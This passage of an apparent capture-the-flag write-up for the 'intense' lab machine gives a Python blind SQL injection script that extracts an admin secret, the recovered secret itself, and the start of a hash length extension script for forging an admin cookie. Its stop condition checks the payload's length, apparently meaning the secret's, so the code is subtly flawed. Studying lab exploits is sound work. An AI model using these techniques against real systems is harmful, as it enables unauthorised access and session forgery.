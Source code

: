 ```python
    response = requests.post(ENDPOINT, data = { "message" : payload }, cookies = COOKIE )
    return response.text

adminsecret = ""
for cnt in range(1,66):
    stop = False
    for letter in string.ascii_lowercase + string.digits:
        if stop:
            break
        payload = f"' AND (select CASE WHEN ( (SELECT hex(substr(secret,{cnt},1)) FROM users WHERE role=1) = hex('{letter}') ) then match(1,1) END ))--"
        resp = test(payload)
        if 'unable' in resp:
            adminsecret += letter
            if len(payload) == 64:
                print(f"[+] Finished, admin secret is:\n{adminsecret}")
                sys.exit(0)
            stop = True
    print(f"[+] Found new letter, updated secret: {adminsecret}")
```

The result was good:

![image-20201102223055862](/assets/intense/image-20201102223055862.png)

The admin's secret is:

```
f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
```

Apparently, there is a thing called hash length attack, which take advantage of the hash padding that prepends a secret value to the data before hashing... It is really cool, look at [this article](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) and [this tool](https://github.com/bwall/HashPump). You can use the tool this way in python:

```python
#!/usr/bin/env python3

from base64 import b64decode, b64encode
import os, hashpumpy, binascii, requests

ADMIN_SESSION = ';username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;'
URL           = "http://10.10.10.195"
ENDPOINT      = URL + "/admin"

def get_cookie():
    session = requests.Session()
    session.post(URL + "/postlogin", data = {"username": "guest", "password": "guest"})
    return session.cookies["auth"]

( b64_data, b64_signature ) = get_cookie().split(".")
guest_data = b64decode(b64_data)
guest_sign = b64decode(b64_signature)
```